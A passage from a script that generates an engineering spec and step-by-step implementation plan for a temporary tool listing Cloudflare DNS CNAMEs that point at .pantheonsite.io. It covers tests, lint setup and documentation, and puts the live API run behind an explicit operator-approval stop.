`research.md`), and a record can be edited between generation and the batch. The\n  file carries no capture timestamp, so the rule is: **regenerate immediately before any rewrite**,\n  and never feed a rewriter a file you did not just produce. §14 Q8 asks the rewriter to state its\n  own staleness policy.\n\n### R5a — Divergences from the PROMPT, stated as divergences\n\nPROMPT.md line 8 asks for *\"the same fields/stucture as `./fqdns.json`\"*. Three deliberate\ndepartures, all approved by the operator during review on 2026-07-30:\n\n| Departure | Why | Consequence to respect |\n|---|---|---|\n| Six extra value fields | Without them the downstream rewrite must re-list every zone, and its reverse direction loses TTL/comment/tags/flatten_cname | Task 6 Step 4's key-set assertion pins the full set |\n| Keys are `normalize()`d; `fqdns.py` keys by **raw** `record.name` | Case/trailing-dot stability | Any comparison against `fqdns.json` keys **must normalize both sides** — Task 7 Step 3 does, and would otherwise report phantom \"missing\" entries |\n| `origins` has the **same key and type but a narrower meaning** | `fqdns.py:114-120` collects the content of **every proxied record of any type** at a name — the live `fqdns.json` shows IP addresses in `origins`. This file's `origins` holds only matching platform-CNAME targets | A consumer that reads both files with one code path will be wrong; the CLAUDE.md subsection says so too |\n\n### R6 — Exit codes and streams\n\n| Code | Meaning |\n|---|---|\n| 0 | the output file was written (including an empty `{}`) |\n| 2 | could not complete: config unreadable / not TOML, no `[Cloudflare]` section, a non-`str` credential, an unresolvable / malformed / unsupported substitution, missing credentials, any `cloudflare.CloudflareError`, zero zones, **a truncated list (accounts, zones, or records) confirmed by a re-read**, or an `OSError` writing the output file |\n| 130 | interrupted (`KeyboardInterrupt`) |\n| 120 | **not produced by this program.** The interpreter's shutdown flush of a doomed **stdout** (argparse's usage/`--help`) *or* **stderr** exits 120 over the return value. Accepted and not guarded — §8.4. Listed here so the table is exhaustive. |\n\nThere is deliberately **no exit 1**. The sibling reserves 1 for \"completed with indeterminates\"\nbecause a DNS lookup can be indeterminate; a Cloudflare list call either returns or raises.\n**Holding that line takes explicit work**, and two measured paths escaped it in the first draft:\nan `OSError` from the write (which lands *after* the whole multi-minute walk) and a `ValueError`\nfrom `shlex.split` on an unbalanced quote. Both are now named conversions to `StartupError`, both\ntested (§13).\n\n**stdout carries only argparse's usage/`--help` text.** All operator output goes to stderr; the\n*result* is the file. The sibling's doomed-stream detach guards are **not** copied (§8.4).\n\n**NEVER print an API response body.** `APIStatusError.__str__` is `\"Error code: NNN - {body}\"`; a\nDNS-record body echoes record contents and an auth-failure body can echo the credential.\n`api_error_text(e)` renders `\"{ClassName}: HTTP {status}\"` when a status code is present, else\n`\"{ClassName}: {e}\"` — and §7 tests it against a **real** SDK exception, because if `status_code`\nwere ever renamed the fallback *is* the leak.\n\n### R7 — Duplicate-name warnings\n\nWhen a name already in the map is matched again, print to stderr — **every** duplicate, not only\na cross-zone one. The file keeps one `record_id` of two and feeds a *destructive* rewrite, so\nsilence is the wrong default even for the same-zone case, which the Cloudflare API should make\nunreachable (a name may hold at most one CNAME) and which is therefore a signal worth seeing.\n\nWarnings are collected during the fold and printed **before** the file is written, so an operator\nwatching stderr sees them even if the write then fails.\n\n### R8 — Atomic write\n\n`write_fqdns_atomic` from `plugin/cloudflare/fqdns.py`, copied and renamed `write_json_atomic`:\n`tempfile.mkstemp(dir=…)` in the target's directory → write → restore a umask-based mode →\n`os.replace()` → on any `BaseException`, unlink the temp file and re-raise. The `# noqa: PTH…`\ncomments come with it. An interrupted run leaves the previous file byte-intact; it never leaves a\ntruncated one.\n\n## 3. Module layout of the script\n\n**File order matches task order** — this is load-bearing, because each task's checkpoint lints the\nfile as it then stands, and a forward reference would fail `F821`.\n\n| Symbol | Task | Responsibility |\n|---|---|---|\n| module docstring, constants, `StartupError`, `normalize`, `is_platform_domain` | 1 | R4 |\n| `resolve_env_marker`, `resolve_config_value`, `build_client`, `cloudflare_client` | 2 | R2, R2a |\n| `plain`, `collect_entries` | 3 | R4, R5, R7 |\n| `write_json_atomic` | 4 | R8 |\n| `expected_record_count`, `read_all`, `api_error_text`, `SweepResult`, `fetch_platform_cnames`, `build_arg_parser`, `main`, `__main__` guard | 5 | R3, R6, R1 |\n\n## 4. Seams under test — named and agreed\n\nAgreed here, before implementation, per the Spine's bar (*\"The spec is the only place a seam can\nbe agreed\"*).\n\n| Seam | How a test reaches it | Why it is a seam |\n|---|---|---|\n| the script module itself | `SourceFileLoader` **fresh per test** (`fpc` fixture) | The script has no `.py` extension; fresh-per-test is what makes module-attribute patching safe |\n| `os.environ` | `monkeypatch.setenv` / `delenv` | The only ambient input to credential resolution |\n| the config file | a TOML written into `tmp_path` | Real `tomllib` parse, no fake |\n| **the Cloudflare client** | `FakeCloudflareClient` / `FakePage` passed **as a parameter** — never patched | `fetch_platform_cnames(client, …)` takes the client; injection beats patching |\n| **the request the SDK would send** | `client._build_request(...)` — offline, no I/O | The only way to assert R2a's property rather than its implementation |\n| **the real SDK classes** | imported directly in three tests (`V4PagePaginationArrayResultInfo`, `SyncV4PagePaginationArray`, `PermissionDeniedError`) | The fakes cannot notice an SDK change; these can (§8.10) |\n| `cloudflare_client` / `fetch_platform_cnames` / `write_json_atomic`, as `main()` calls them | `monkeypatch.setattr(fpc, …)` | Safe *only* because the module is fresh per test |\n| the filesystem | `tmp_path` + `monkeypatch.chdir` (`OUTPUT_FILE` is relative) | Keeps the repo clean and makes the write assertable |\n| the real Cloudflare API | **NEVER** touched by any test | Every test in §7 is offline |\n\n`FakePage` deliberately has **no `result` attribute**: an implementation that read `page.result`\n(page 1 only) instead of iterating would fail loudly. One test asserts the real class *does* have\n`result`, so that trap is known to be real rather than imagined.\n\n## 5. Shadow paths (PD#3), traced\n\n| Flow | Happy | Nil input | Empty / zero-length | Upstream error |\n|---|---|---|---|---|\n| Credential resolution | marker → env value → client | key absent → `None` → falls through to email+key, or `StartupError` if neither | env var set but **empty** → `\"\"` → falsy → treated as absent, matching `get_env`'s `name in os.environ` semantics | unset var, unbalanced quote, non-`env` form, non-`str` value → `StartupError` |\n| The walk | accounts → zones → records | `result_info` absent → `expected is None` → cross-check no-ops, counted as unchecked | **zero accounts** → zero zones → fatal; **zero zones** → fatal; a zone with **zero records** → contributes nothing, not an error | `CloudflareError` → `StartupError` via `api_error_text`; count mismatch → one re-read → concurrent change (continue) or truncation (fatal) |\n| The fold | CNAME + platform target → entry | `content` `None` → skipped; `settings` `None` → `null`; `proxied`/`ttl` absent → `False`/`None` | zero pairs → `({}, [])`, reported with the zero-match `ATTENTION:` | n/a (pure; upstream errors surface from the generator it consumes) |\n| The write | temp → chmod → `os.replace` | n/a | `{}` writes `{}\\\\n` — a real, intentional result | `OSError` → temp unlinked, previous file byte-intact, converted to `StartupError`. A `TypeError` mid-serialize would *not* be converted — but it is **unreachable**: every stored value comes from the SDK's JSON parsing, and the one model (`settings`) goes through `plain()`, which is itself pinned by a test |\n\n## 6. Observability (PD#5)\n\n| Level | Emits |\n|---|---|\n| default | duplicate-name `ATTENTION:` warnings; the summary (entries, **DNS-only count**, records scanned, zones, accounts, path); the **truncation cross-check coverage** line; the zero-match `ATTENTION:`; one `ERROR:` line on failure |\n| `-v` | additionally, per zone: `[n/total] zone <name> -- N records`, marked `(total_count unavailable, not cross-checked)` when the guard could not run; plus a notice whenever a re-read is triggered and how it resolved |\n\nRules:\n\n- **NEVER** an API response body, at any level (R6).\n- A truncation is a **hard abort naming both counts on both reads**, not a log line to notice.\n- **The guard reports its own coverage** at default verbosity —\n  `Truncation cross-check active for 41 of 43 zones.` This is what makes §14 Q1 answerable; a\n  guard whose liveness is invisible is not a guard.\n- The **runtime is unknown until the first live run** and is recorded in §12, then added to the\n  CLAUDE.md subsection — the sibling documents \"~38 minutes\" and an operator starting a long\n  silent run deserves the same.\n- Rejected: counted `-v/-vv/-vvv` (§8.9).\n\n## 7. Test plan\n\nOne file, `tests/unit/test_find_platform_domains_cloudflare.py`, `pytestmark = pytest.mark.unit`,\nfully offline, **55 tests**. Seams per §4.\n\n**These counts and outcomes are measured, not predicted.** The script and test file were built to\ncompletion in a scratch directory, then **staged back task by task** — each stage linted with the\nrepo's ruff config and run under pytest:\n\n```\nTask 1: clean    8 passed\nTask 2: clean   24 passed\nTask 3: clean   36 passed\nTask 4: clean   39 passed\nTask 5: clean   55 passed\n```\n\nplus, on the finished file: `ruff check` clean; **6 × T201 with the per-file-ignores entries\nremoved** (so Task 5 Step 6's check is red-capable); `pyright` standard `0 errors, 0 warnings`.\n\nNot covered, by decision (§8): any live-API test.\n\n---\n''')\n\n# ---------------- Tasks ----------------\nIMPORT_NOTE = {\n 1: \"`re` only — the module docstring, constants and the two pure functions need nothing else.\",\n 2: \"add `os`, `shlex`, `tomllib`, `from pathlib import Path`, and `from cloudflare import Cloudflare`.\",\n 3: \"none — `plain` and `collect_entries` add no imports.\",\n 4: \"add `json` and `tempfile`.\",\n 5: \"add `argparse`, `sys`, `from typing import NamedTuple`, and `import cloudflare` (the bare module, for `cloudflare.CloudflareError`).\",\n}\n\nw(f'''## Task 1: Scaffold, tooling, and the match rule\n\n**Files:**\n- Create: `find-platform-domains-cloudflare` (executable, `chmod +x`)\n- Create: `find-platform-domains-cloudflare.py` → symlink to the above\n- Create: `tests/unit/test_find_platform_domains_cloudflare.py`\n- Modify: `pyproject.toml` (two `[tool.ruff.lint.per-file-ignores]` entries, one\n  `[tool.pyright].include` entry)\n- Modify: `.claude/hooks/ruff-check.sh` (one `case` arm)\n\n**Interfaces:**\n- Consumes: nothing.\n- Produces: `PLATFORM_SUFFIX`, `OUTPUT_FILE`, `DEFAULT_CONFIG`, `API_BASE_URL`, `MARKER_RE`,\n  `StartupError`, `normalize(name) -> str`, `is_platform_domain(name) -> bool`.\n\n**Imports this task introduces:** {IMPORT_NOTE[1]}\n\n- [ ] **Step 1: Write the failing test**\n\nCreate `tests/unit/test_find_platform_domains_cloudflare.py`:\n\n```python\n{T[1]}\n```\n\n- [ ] **Step 2: Run the tests to verify they fail — for the right reason**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\n\nExpected: **8 errors**, each a `FileNotFoundError` raised by the `fpc` fixture. Collection itself\n**succeeds** — `SCRIPT` is only a `Path` at module level and nothing touches the filesystem until\nthe fixture runs. Do **not** expect a collection error.\n\n- [ ] **Step 3: Create the script**\n\nCreate `find-platform-domains-cloudflare`:\n\n```python\n{S[1]}\n```\n\n- [ ] **Step 4: Make it executable and create the symlink**\n\n```bash\ncd /workspace\nchmod +x find-platform-domains-cloudflare\nln -s find-platform-domains-cloudflare find-platform-domains-cloudflare.py\n```\n\n`chmod +x` is **required, not cosmetic**: ruff's `EXE001` (\"shebang is present but file is not\nexecutable\") fires without it, and `EXE001` is in no ignore list. Measured.\n\n- [ ] **Step 5: Add the tooling entries**\n\nIn `pyproject.toml`, in `[tool.ruff.lint.per-file-ignores]`, immediately after the two existing\n`find-platform-domains-dns` entries:\n\n```toml\n\"find-platform-domains-cloudflare.py\" = [\"T201\"]  # a CLI tool: print IS its operator output\n    # (stderr = warnings, progress, summary; the result is the JSON file).  Temporary, deleted\n    # with the script after the Pantheon CDN migration -- see\n    # development/2026-07-30-platform-domain-util2/SPEC.md section 11.\n\"find-platform-domains-cloudflare\" = [\"T201\"]  # the extension-less real file the .py entry\n    # above symlinks to -- .claude/hooks/ruff-check.sh hands ruff THIS path (an edit lands on the\n    # real file, not the symlink), and per-file-ignores is keyed on the path ruff is given, so\n    # the .py entry alone leaves the hook's own invocation reporting T201.  Same justification\n    # and deletion condition as the .py entry above.\n```\n\nIn `pyproject.toml`, `[tool.pyright]`, extend `include`:\n\n```toml\ninclude = [\"psh\", \"find-platform-domains-dns.py\", \"find-platform-domains-cloudflare.py\"]\n```\n\nIn `.claude/hooks/ruff-check.sh`, add one arm to the extension-less `case` (after the\n`find-platform-domains-dns` arm):\n\n```sh\n    \"$REPO_ROOT/find-platform-domains-cloudflare\") ;;\n```\n\nand extend that block's comment to name both temporary utilities.\n\n- [ ] **Step 6: Run the tests to verify they pass**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: **8 passed** (and the repo-wide ruff/pyright gates green — measured clean at this stage).\n\n- [ ] **Step 7: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare find-platform-domains-cloudflare.py \\\\\n        tests/unit/test_find_platform_domains_cloudflare.py pyproject.toml \\\\\n        .claude/hooks/ruff-check.sh\ngit commit -m \"feat(find-platform-domains-cloudflare): scaffold the utility and its match rule\"\n```\n\n> The \"does the lint gate actually see this file\" check is **not** here. At this point the script\n> contains no `print`, so `ruff check` passes identically whether or not Step 5 was done — a green\n> check that cannot go red. It moves to Task 5 Step 6, where the `print` calls exist (§13).\n\n---\n\n## Task 2: Credential resolution\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `is_platform_domain`)\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append; add nothing to the imports)\n\n**Interfaces:**\n- Consumes: `MARKER_RE`, `StartupError`, `API_BASE_URL` (Task 1).\n- Produces: `resolve_env_marker(expr, where) -> str`, `resolve_config_value(value, where)`,\n  `build_client(**creds) -> Cloudflare`, `cloudflare_client(config_path) -> Cloudflare`.\n\n**Imports this task introduces:** {IMPORT_NOTE[2]}\n\n- [ ] **Step 1: Write the failing tests**\n\nAppend to the test file:\n\n```python\n{T[2]}\n```\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nExpected: FAIL — `AttributeError: module … has no attribute 'resolve_config_value'`.\n\n- [ ] **Step 3: Implement**\n\nAdd the imports named above to the top block, then append after `is_platform_domain`:\n\n```python\n{S[2]}\n```\n\n- [ ] **Step 4: Run the tests to verify they pass**\n\nExpected: **24 passed** (8 + 16 here; `test_resolve_config_value_reads_the_environment` is\nparametrized over two marker forms).\n\n- [ ] **Step 5: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py\ngit commit -m \"feat(find-platform-domains-cloudflare): resolve [Cloudflare] credentials, pinned against the environment\"\n```\n\n---\n\n## Task 3: The fold\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `cloudflare_client`)\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append; **add `json` to the top\n  import block**)\n\n**Interfaces:**\n- Consumes: `is_platform_domain`, `normalize` (Task 1).\n- Produces: `plain(value)`, `collect_entries(zone_records) -> tuple[dict, list[str]]`.\n\n**Imports this task introduces:** {IMPORT_NOTE[3]}\n\n- [ ] **Step 1: Write the failing tests**\n\nAppend to the test file (and add `import json` to its top block):\n\n```python\n{T[3]}\n```\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nExpected: FAIL — `AttributeError: module … has no attribute 'collect_entries'`.\n\n- [ ] **Step 3: Implement**\n\nAppend after `cloudflare_client`:\n\n```python\n{S[3]}\n```\n\n- [ ] **Step 4: Run the tests to verify they pass**\n\nExpected: **36 passed** (24 + 12 here;\n`test_collect_entries_skips_everything_that_is_not_a_platform_cname` is parametrized over five\nrecords).\n\n- [ ] **Step 5: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py\ngit commit -m \"feat(find-platform-domains-cloudflare): fold DNS records into the output mapping\"\n```\n\n---\n\n## Task 4: The atomic write\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `collect_entries`)\n- Modify: `.gitignore`\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append)\n\n**Interfaces:**\n- Consumes: nothing.\n- Produces: `write_json_atomic(path, data) -> None`.\n\n**Imports this task introduces:** {IMPORT_NOTE[4]}\n\n- [ ] **Step 1: Write the failing tests**\n\nAppend to the test file:\n\n```python\n{T[4]}\n```\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nExpected: FAIL — `AttributeError: module … has no attribute 'write_json_atomic'`.\n\n- [ ] **Step 3: Implement**\n\nAdd `json` and `tempfile` to the top import block, then append after `collect_entries`:\n\n```python\n{S[4]}\n```\n\n- [ ] **Step 4: Ignore the generated output file**\n\nIn `.gitignore`, next to the existing `/fqdns.json` line:\n\n```\n/platform-domains-cloudflare.json\n```\n\n- [ ] **Step 5: Run the tests to verify they pass**\n\nExpected: **39 passed** (36 + 3 here).\n\n- [ ] **Step 6: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py \\\\\n        .gitignore\ngit commit -m \"feat(find-platform-domains-cloudflare): write the output file atomically\"\n```\n\n---\n\n## Task 5: The guarded walk and the CLI\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `write_json_atomic`)\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append)\n\n**Interfaces:**\n- Consumes: `collect_entries`, `plain` (Task 3), `cloudflare_client` (Task 2),\n  `write_json_atomic` (Task 4), `StartupError`, `OUTPUT_FILE`, `DEFAULT_CONFIG` (Task 1).\n- Produces: `expected_record_count(page) -> int | None`, `read_all(fetch, what, notify=None)\n  -> tuple[list, bool]`, `api_error_text(e) -> str`, `SweepResult` (NamedTuple:\n  `entries, warnings, accounts, zones, records, zones_checked`),\n  `fetch_platform_cnames(client, *, verbose=False) -> SweepResult`, `build_arg_parser()`,\n  `main(argv) -> int`.\n\n**Imports this task introduces:** {IMPORT_NOTE[5]}\n\n- [ ] **Step 1: Write the failing tests**\n\nAppend to the test file:\n\n```python\n{T[5]}\n```\n\n> Note for the implementer: `import cloudflare` / `import httpx` inside a test body is deliberate\n> — the top block is for names the module level needs, and `PLC0415` (in-test imports) is in the\n> `tests/**` ignore list. `httpx` is a direct dependency under the `cloudflare` extra\n> (`pyproject.toml`), so these stay offline. `cloudflare.APIConnectionError(request=None)` was\n> verified constructible against the installed SDK (5.4.0); its MRO is\n> `APIConnectionError → APIError → CloudflareError → Exception`.\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nExpected: FAIL — `AttributeError: module … has no attribute 'expected_record_count'`.\n\n- [ ] **Step 3: Implement**\n\nAdd the imports named above to the top block, then append after `write_json_atomic`:\n\n```python\n{S[5]}\n```\n\n- [ ] **Step 4: Run the tests to verify they pass**\n\nExpected: **55 passed** (39 + 16 here).\n\n- [ ] **Step 5: Run the whole gate**\n\nRun: `./run-tests --fast`\nExpected: ruff passes, pyright passes, the full offline suite green with no new failures.\n\n- [ ] **Step 6: Prove the lint entries are load-bearing (a check that can go red)**\n\n```bash\nuvx ruff@0.15.22 check find-platform-domains-cloudflare\n# -> All checks passed!\n\n# Now temporarily comment out BOTH \"find-platform-domains-cloudflare*\" per-file-ignores\n# entries in pyproject.toml and re-run:\nuvx ruff@0.15.22 check find-platform-domains-cloudflare\n# -> 6 errors, all T201.  Restore the entries.\n```\n\nMeasured: exactly **6 × T201**. If the second run reports zero errors, the entries are in the\nwrong place and the first run proved nothing.\n\n- [ ] **Step 7: Verify the CLI surface without touching Cloudflare**\n\n```bash\nsource .venv/bin/activate\n./find-platform-domains-cloudflare --help\n./find-platform-domains-cloudflare -c /nonexistent.toml ; echo \"exit=$?\"\n```\nExpected: usage text on **stdout**; then `ERROR: cannot read /nonexistent.toml: …` on **stderr**\nand `exit=2`.\n\n- [ ] **Step 8: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py\ngit commit -m \"feat(find-platform-domains-cloudflare): walk every zone, guarded against truncation\"\n```\n\n---\n\n## Task 6: Documentation (offline; no gate)\n\n**Files:**\n- Modify: `CLAUDE.md` (a subsection beside the existing `find-platform-domains-dns` one)\n\nThis task is deliberately **before** the STOP and commits on its own, so the utility is documented\nin git whether or not the live run ever happens.\n\n- [ ] **Step 1: Add the CLAUDE.md subsection**\n\nImmediately after the existing `### \\\\`find-platform-domains-dns\\\\` (temporary utility)`\nsubsection, add:\n\n```markdown\n### `find-platform-domains-cloudflare` (temporary utility)\n\nA standalone, deletable script — **not** part of the main program and importing nothing from\n`psh/`/`check/`/`plugin/` — that writes every Cloudflare DNS **CNAME whose target ends in\n`.pantheonsite.io`** to `./platform-domains-cloudflare.json`. It is the Cloudflare-side\ncounterpart to `find-platform-domains-dns`: that one reads public DNS and is blind to a proxied\nrecord's target; `fqdns.json` is built with `proxied=True` and is blind to a DNS-only record.\nThis considers **all** records in **all** zones of every account the credentials can see.\nLegacy `*.gotpantheon.com` targets are out of scope.\n\nThe file is keyed by the **normalized** FQDN with `{zone_id, origins, record_id, proxied, ttl,\ncomment, tags, settings}`. Two traps when comparing it to `fqdns.json`: that file keys by the\n**raw** `record.name` (normalize both sides), and its `origins` means something **wider** — every\nproxied record's content at that name, IP addresses included — where this file's holds only\nmatching platform-CNAME targets. `settings` is `.model_dump()`ed (it is a pydantic model). Every\nscalar is **first-record-wins**, `origins` accumulates, and **every** duplicate name warns on\nstderr. The file is **regenerated in full on every run**; a run that matches nothing writes `{}`\nloudly rather than leaving a stale file. It drives a *destructive* rewrite, so **regenerate it\nimmediately before any rewrite** — its mtime is the only freshness signal it has.\n\nExit 0 = written, 2 = could not complete, 130 = interrupted; there is no exit 1. Exit 2 covers an\nunreadable config, a non-string or unresolvable credential, missing credentials, any Cloudflare\nAPI error, **zero zones** (a missing `Account:Read`/`DNS:Read` scope and an empty org otherwise\nproduce an identical empty file), **a truncated list** and an `OSError` on the write. All three\nlist endpoints paginate, so each one's item count is cross-checked against Cloudflare's own\n`total_count`; a mismatch triggers **one re-read**, because `total_count` is computed for page 1\nand a record changed mid-sweep disagrees for a benign reason — a self-consistent re-read is that\ncase and is kept, a second disagreement is truncation and aborts. The run reports how many zones\nit could actually cross-check, since the guard no-ops wherever the API omits `total_count`.\nstdout carries only argparse's usage/`--help`; everything else is stderr, and error text\n**never** includes an API response body.\n\nCredentials come from `[Cloudflare]` in the same TOML the main program reads, via a **copied**\nresolver handling only the `<{env NAME}` / `<{secret env NAME}` forms; any other substitution, and\nany non-string value, is a named error. `enabled` is not consulted. **`build_client()` pins the\nclient against the ambient environment** — four credential fields, `base_url`, and\n`_custom_headers` — because the SDK back-fills unset credentials from six env vars and ambient\nvalues reach the wire by four routes, the worst being `$CLOUDFLARE_BASE_URL`, which sends the\nconfigured token to an arbitrary host. Measured against cloudflare 5.4.0.\n**`plugin/cloudflare/client.py` has all four routes open**; `$CLOUDFLARE_BASE_URL` is exploitable\nagainst the main program today, whichever credential form is configured.\n\n```bash\n./find-platform-domains-cloudflare            # every zone, every account\n./find-platform-domains-cloudflare -v         # ... naming each zone and its record count\n```\n\n`find-platform-domains-cloudflare.py` is a committed symlink to the script above, same convention\nas `pantheon-sitehealth-emails.py` and `find-platform-domains-dns.py`: ruff, pyright, and\nCodeGraph key off the `.py` extension. **Delete this script after Pantheon's CDN migration** —\nchecklist in `development/2026-07-30-platform-domain-util2/SPEC.md` §11.\n```\n\n- [ ] **Step 2: Commit**\n\n```bash\ngit add CLAUDE.md\ngit commit -m \"docs(find-platform-domains-cloudflare): document the temporary utility\"\n```\n\n---\n\n## Task 7: Live verification\n\n> # ⛔ STOP — OPERATOR APPROVAL REQUIRED\n>\n> **This is a structural halt, not a checklist item. There is no checkbox to tick.**\n>\n> Every step below calls the **live Cloudflare API with production credentials**. Tasks 1–6 were\n> entirely offline.\n>\n> **Do not proceed until the operator replies with the exact phrase:**\n>\n> ```\n> RUN THE LIVE SWEEP\n> ```\n>\n> Nothing else unlocks this task. Report that you are waiting, and stop. If the operator declines\n> or does not answer, the work from Tasks 1–6 is already committed and complete; §12 simply stays\n> unfilled.\n\n- [ ] **Step 1: Run the live sweep**\n\n```bash\nsource .venv/bin/activate\ntime ./find-platform-domains-cloudflare -v ; echo \"exit=$?\"\n```\n\nExpected: per-zone lines with record counts on stderr, then the summary and the cross-check\ncoverage line, `exit=0`. **Record the wall-clock time** — §12 and the CLAUDE.md subsection both\nneed it.\n\n- [ ] **Step 2: Verify the output against the contract**\n\n```bash\npython - <<'PY'\nimport json\ndata = json.load(open(\"platform-domains-cloudflare.json\"))\nexpected_keys = {\"zone_id\", \"origins\", \"record_id\", \"proxied\", \"ttl\", \"comment\", \"tags\",\n                 \"settings\"}\nfor name, entry in data.items():\n    assert set(entry) == expected_keys, f\"{name}: unexpected key set {set(entry)}\"\n    for origin in entry[\"origins\"]:\n        assert origin.rstrip(\".\").lower().endswith(\".pantheonsite.io\"), f\"{name}: {origin}\"\n    assert name == name.strip().rstrip(\".\").lower(), f\"{name}: key not normalized\"\nprint(len(data), \"entries;\",\n      sum(1 for e in data.values() if not e[\"proxied\"]),\n      \"DNS-only (invisible to fqdns.json);\",\n      sum(1 for e in data.values() if len(e[\"origins\"]) > 1), \"with multiple origins\")\nPY\n```\n\n- [ ] **Step 3: Cross-check against `fqdns.json`**\n\n```bash\npython - <<'PY'\nimport json\nnew = json.load(open(\"platform-domains-cloudflare.json\"))\nold = json.load(open(\"fqdns.json\"))\n# BOTH sides normalized: this file keys by the normalized name, fqdns.json by the raw\n# record.name, so differencing them raw invents phantom entries (SPEC R5a).\ndef norm(name): return name.strip().rstrip(\".\").lower()\nproxied_here = {norm(k) for k, v in new.items() if v[\"proxied\"]}\nmissing = sorted(proxied_here - {norm(k) for k in old})\nprint(\"proxied platform CNAMEs this run found that fqdns.json lacks:\", missing)\nPY\n```\n\nExpected: an empty list, or a short list explainable by `fqdns.json` being stale (24h refresh\nrule). A long unexplained list means the walk is wrong — stop and investigate before recording §12.\n\n- [ ] **Step 4: Record §12, add the runtime to the CLAUDE.md subsection, and commit**\n\n```bash\ngit add CLAUDE.md development/2026-07-30-platform-domain-util2/SPEC.md\ngit commit -m \"docs(find-platform-domains-cloudflare): record the first live sweep\"\n```\n\n---\n''')\n\nw('''## 8. NOT in scope\n\n1. **`--output` flag.** The path is fixed by the PROMPT.\n2. **Nested `records` list / parallel arrays for per-record detail.** Rejected in favor of scalars\n   with first-record-wins, mirroring how `fqdns.json` already treats `zone_id`. Duplicates always\n   warn and every target stays in `origins`.\n3. **Server-side filtering (`type=\"CNAME\"`).** Rejected: the requirement is to consider all\n   records, efficiency is explicitly not a goal, and the change is one word if a run becomes\n   painful. §14 Q2 revisits it against the measured runtime.\n4. **Doomed-stream detach guards and the exit-120 taxonomy** the sibling carries. Rejected: that\n   machinery exists because the sibling's *result* is a CSV on stdout. Here the result is a file.\n   A doomed stdout (`--help >/dev/full`) or stderr can still produce exit 120; accepted and\n   documented (R6) rather than guarded — the same call CLAUDE.md records for the sibling's\n   argparse output.\n5. **Any live-API test.** Every test in §7 is offline. The live path is exercised once, by hand,\n   behind Task 7's STOP.\n6. **Progress bars (`rich.progress`).** `-v` stderr lines carry the same information.\n7. **Fixing `plugin/cloudflare/client.py`'s credential-isolation defect (R2a).** Real, measured,\n   reported — a change to the main program with its own test surface. **Note it is not merely\n   latent:** `$CLOUDFLARE_BASE_URL` is exploitable against the main program today.\n8. **A `docs/` page.** The CLAUDE.md subsection is the documentation.\n9. **Counted `-v/-vv/-vvv`.** Rejected: the truncation guard is a hard abort *and* reports its own\n   coverage at default verbosity, so the two questions a `-vv` tier would have answered (\"did it\n   fire?\", \"did it run at all?\") are both answered without one. The sibling sets the\n   boolean-`-v` precedent for temporary scripts.\n10. **Pinning the `cloudflare` dependency.** R2a and R3 rest on SDK internals and `pyproject.toml`\n    declares `\"cloudflare\"` unpinned. Pinning affects every consumer and is a main-program\n    decision. Mitigation instead: §7 includes tests that touch the **real** SDK classes —\n    `V4PagePaginationArrayResultInfo` (so a lost `extra=\"allow\"` goes red),\n    `SyncV4PagePaginationArray` (so the `page.result` trap stays real), and a real\n    `PermissionDeniedError` (so a renamed `status_code` cannot silently turn `api_error_text` into\n    a body leak). Fake-backed tests alone could not notice any of these.\n11. **Guarding the count of *matching* records against anything.** Only list completeness is\n    guarded; there is no expected number of platform CNAMEs to check against.\n\n## 9. Files created / modified (complete list)\n\n| File | Action | Task |\n|---|---|---|\n| `find-platform-domains-cloudflare` | create (executable) | 1–5 |\n| `find-platform-domains-cloudflare.py` | create (symlink) | 1 |\n| `tests/unit/test_find_platform_domains_cloudflare.py` | create | 1–5 |\n| `pyproject.toml` | modify (2 per-file-ignores + 1 pyright include) | 1 |\n| `.claude/hooks/ruff-check.sh` | modify (1 case arm + comment) | 1 |\n| `.gitignore` | modify (1 line) | 4 |\n| `CLAUDE.md` | modify (1 subsection, + runtime in Task 7) | 6, 7 |\n| `development/2026-07-30-platform-domain-util2/SPEC.md` | modify (§12 result) | 7 |\n\n## 10. Verification\n\n- `./run-tests --fast` — ruff, pyright, and the offline suite green; 55 new tests. Measured clean\n  at **every** per-task checkpoint (8 / 24 / 36 / 39 / 55), not only at the end.\n- Task 5 Step 6 — the per-file-ignores entries proven load-bearing (6 × T201 without them).\n- `./find-platform-domains-cloudflare --help` — usage renders on stdout.\n- `./find-platform-domains-cloudflare -c /nonexistent.toml` — exit 2, named error on stderr.\n- The live run and its two cross-checks (Task 7), behind the STOP.\n\n## 11. Deletion checklist (after Pantheon's CDN migration)\n\n1. `git rm find-platform-domains-cloudflare find-platform-domains-cloudflare.py`\n2. `git rm tests/unit/test_find_platform_domains_cloudflare.py`\n3. `pyproject.toml`: remove the **two** `[tool.ruff.lint.per-file-ignores]` entries.\n4. `pyproject.toml`: remove `\"find-platform-domains-cloudflare.py\"` from `[tool.pyright].include`.\n5. `.claude/hooks/ruff-check.sh`: remove the `\"$REPO_ROOT/find-platform-domains-cloudflare\"` case\n   arm and trim its comment back to naming only `find-platform-domains-dns`.\n6. `.gitignore`: remove `/platform-domains-cloudflare.json`.\n7. `CLAUDE.md`: remove the `### find-platform-domains-cloudflare (temporary utility)` subsection.\n8. Delete any leftover `platform-domains-cloudflare.json` from working checkouts.\n\nThis folder stays — it is the historical record.\n\n## 12. First live run\n\n*Recorded in Task 7, Step 4. Leave this section as-is until then.*\n\n- Date:\n- Command:\n- Exit code:\n- 